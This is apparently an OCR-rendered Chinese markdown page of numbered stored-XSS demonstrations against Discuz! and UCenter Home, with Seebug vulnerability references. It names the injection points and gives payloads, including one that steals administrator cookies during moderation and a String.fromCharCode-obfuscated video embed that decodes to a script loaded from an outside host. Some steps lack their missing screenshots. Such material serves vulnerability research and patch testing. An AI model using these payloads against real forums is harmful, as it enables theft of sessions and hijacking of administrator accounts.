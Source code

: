 在管理后台-应用-自助广告位可发现弹出窗口

参考链接：https://www.seebug.org/vuldb/ssvid-90006
#### 演示4：Discuz! x2,x2.5,x3.0,x3.1,x3.2 XSS直打管理员
在添加链接处，如添加友链或发帖内容填写友链处。

添加xss代码

等管理员审核的时候获取到cookie

参考链接：https://www.seebug.org/vuldb/ssvid-93713
#### 演示5：Discuz! X2.5后台禁言xss
在论坛首页管理 禁止用户那 输入你能管理的用户名称 然后选择禁言 理由那插入payload

漏洞证明

参考链接：https://www.seebug.org/vuldb/ssvid-93645
#### 演示6：Discuz!附件解析漏洞导致XSS
先新建一个php文件，写入XSS代码：<img src=1 onerror=alert(document.cookie)>
然后保存再将它的后缀名字改成.rar，然后上传附件。点击附件下载，提示即将下：

右键审查元素得到一个类似下面这样附件的地址（这里不是直接在帖子中得到地址而是通过下载提示之后）

在地址后添加一段：-request-文件名.php.html，如下：

当作html执行，XSS代码被触发！

参考链接：https://www.seebug.org/vuldb/ssvid-93631
#### 演示7：DiscuzX3.1/X3/X2.5/X2 抢楼存在存储型XSS
在抢楼-奖励楼层处添加payload

完成后触发xss

参考链接：https://www.seebug.org/vuldb/ssvid-93620
#### 演示8：Ucenter Home 2.0及以下存储型XSS
在插入视频处，如发帖处的插入视频，设置如下payload: [flash]http://" onmouseover='document.body.innerHTML=String.fromCharCode(60,105,102,114,97,109,101,47,111,110,108,111,97,100,61,39,106,97,118,97,115,99,114,105,112,116,58,119,114,105,116,101,40,83,116,114,105,110,103,46,102,114,111,109,67,104,97,114,67,111,100,101,40,54,48,44,49,49,53,44,57,57,44,49,49,52,44,49,48,53,44,49,49,50,44,49,49,54,44,51,50,44,49,49,53,44,49,49,52,44,57,57,44,54,49,44,49,48,52,44,49,49,54,44,49,49,54,44,49,49,50,44,53,56,44,52,55,44,52,55,44,49,49,54,44,49,48,57,44,49,50,48,44,49,48,55,44,52,54,44,49,49,49,44,49,49,52,44,49,48,51,44,52,55,44,49,49,51,44,52,54,44,49,48,54,44,49,49,53,44,54,50,44,54,48,44,52,55,44,49,49,53,44,57,57,44,49,49,52,44,49,48,53,44,49,49,50,44,49,49,54,44,54,50,41,41,39,62)'[/flash]
完成后弹窗

参考链接：https://www.seebug.org/vuldb/ssvid-93654
#### 演示9：Discuz! X2.5最新版本 日志功能存在XSS漏洞
在发表日志内容处添加XSS代码

完成后触发XSS

参考链接：https://www.seebug.org/vuldb/ssvid-93665
#### 演示10：Discuz 4.0 头像设置处可以持久型脚本
头像设置处，先选一个系统自带头像，提交，抓包。 将头像地址“customavatars/190.jpg”替换为xss脚本“javascript:alert(/大家新年快乐啊！/)”（此处会过滤<,”,’），post提交后，触发XSS
